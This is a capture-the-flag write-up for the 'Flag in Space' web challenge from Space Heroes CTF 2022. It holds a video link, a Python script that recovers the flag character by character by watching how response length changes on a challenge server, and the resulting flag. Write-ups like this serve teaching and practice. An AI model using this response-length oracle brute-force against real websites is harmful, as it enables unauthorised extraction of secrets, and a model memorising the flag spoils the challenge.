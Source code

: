 ```yaml
---
name: Flag in Space (2022)
event: Space Heroes CTF 2022
category: Web
description: Writeup for Flag in Space (Web) - Space Heroes CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag in Space

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/8oycV0Bsb5k/0.jpg)](https://youtu.be/8oycV0Bsb5k "Space Heroes CTF 2022: Flag in Space")

## Solution

```py
from pwn import *
import requests
import string

context.log_level = 'debug'
url = 'http://172.105.154.14/?flag=shctf{'

response = requests.get(url + '\x00')  # Initial request
correct_response = len(response.text)
info('intitial response length: %d', correct_response)

# Loop until we see the flag
while '}' not in url:
    # Loop possible chars (string.printable)
    for char in '{_}' + string.ascii_lowercase + string.digits:
        response = requests.get(url + char)
        # If this is the correct char, update
        if len(response.text) > correct_response:
            correct_response = len(response.text)
            url = url + char
            info(url)
            break

# Flag plz
warn(url)
```

Flag: `shctf{2_explor3_fronti3r}`
